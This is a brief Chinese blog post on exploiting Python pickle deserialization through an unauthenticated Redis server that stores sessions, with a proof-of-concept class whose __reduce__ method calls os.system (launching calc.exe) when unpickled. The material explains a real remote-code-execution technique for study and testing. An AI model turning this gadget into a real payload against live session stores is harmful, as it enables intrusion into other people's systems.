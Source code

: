 ```yaml
---
id: 378
title: python反序列化利用
date: 2019-04-11T10:36:08+00:00
author: bfpiaoran
layout: post
guid: http://www.cuijianxiong.top/?p=378
permalink: /?p=378
categories:
  - 未分类
---
```

今天无意看到的场景  redis未授权访问但被降权，redis用于存储用户session，后端python    序列化读取session

![](http://www.cuijianxiong.top/wp-content/uploads/2019/04/38bc6b14aff818a6ed79317ee71570a5.png) 

先来一张Pickle  序列化得样子

然后写进去 当访问session  python会反序列化造成rce

这里写个测试例子

s为payload

&nbsp;

<pre class="pure-highlightjs"><code class="">import pickle
import os

class exp(object):
	def __reduce__(self):
		s = "calc.exe"
		return (os.system,(s,))

e = exp()
s = pickle.dumps(e)

with open("rce","wb") as f:
	f.write(s)


with open("rce","rb") as e:
    data = pickle.loads(e.read())
    print(data)</code></pre>

&nbsp;

![](http://www.cuijianxiong.top/wp-content/uploads/2019/04/8a3595036590e02d61112e01a2f58481.png)